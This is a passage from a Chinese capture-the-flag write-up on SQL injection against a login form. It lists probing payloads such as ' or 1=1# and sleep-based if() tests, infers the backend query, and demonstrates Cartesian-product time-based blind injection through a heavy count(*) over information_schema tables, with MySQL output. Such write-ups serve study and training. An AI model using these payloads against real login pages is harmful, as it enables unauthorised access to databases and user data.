 打开登陆界面，第一反应注入，冷静下看数据量很少，拿出祖传20w字典爆破。

再冷静下测试一下，确认是sql注入

```
username=\&password=or 1=1# ·不报错
username=\&password=' ·报错
username=\&password='' ·不报错
username=\&password='# ·不报错
username=\&password='or 1=0# ·不报错
username=\&password='or # ·500报错
username=\&password='and if(1,sleep(10),select 1)# ·不报错无延时
username=admin&password='and if(0,sleep(10),select 1)# ·不报错无延时
发现没啥用...
```

推测后端为：`select * from user where username='$username' and password='$password'`

过滤了sleep()可能

这里没回显的就延时注入，`sleep()`,`Benchmark()`,或者笛卡尔积

#### 笛卡尔积延时注入

当然延时不精确，count(*)数量大时，费时就高，何况比赛机子**极其不稳定**，不清楚是我卡了还是机器卡了。

> 笛卡尔积延时注入
>
> count(*)后面所有表中的列笛卡尔积数，数量越多越卡，就会有延迟，类似之前某比赛pgsql的延时注入也可以利用此来打时间差，从而达到延时注入的效果
>
> 参考之前的WP：[春秋杯2021新春欢乐赛一道题——按F注入 对pgsql的研究](/article/cqb2021)
>
> ```
> mysql> SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C;
> +-----------+
> | count(*)  |
> +-----------+
> | 113101560 |
> +-----------+
> 1 row in set (2.07 sec)
> 
> mysql> select * from ctf_test where user='1' and 1=1 and (SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C);
> +------+-----+
> | user | pwd |
> +------+-----+
> | 1    | 0   |
> +------+-----+
> 1 row in set (2.08 sec)
> ```

甚至数量大了把我数据库给跑崩了...

![image-20210315142653488](VN2021/image-20210315142653488.png)
